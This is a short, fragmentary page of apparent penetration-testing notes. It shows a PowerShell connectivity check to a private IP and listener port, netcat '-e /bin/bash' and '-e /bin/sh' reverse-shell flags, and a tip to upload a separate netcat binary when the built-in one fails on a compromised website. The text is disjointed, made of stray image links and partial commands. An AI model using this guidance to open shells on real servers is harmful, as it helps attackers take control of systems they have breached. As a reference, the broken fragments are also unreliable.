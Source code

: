 Test-NetConnection -ComputerName 192.168.45.184 -Port 8888



try
-e /bin/bash
-e /bin/sh


````
If you managed to get a terminal on a website and try to nc -e /bin/bash, and can't, try uploading your own nc
<img width="815" alt="image" src="https://github.com/user-attachments/assets/b970829e-e794-4996-87d6-4a099f35e338" />


````
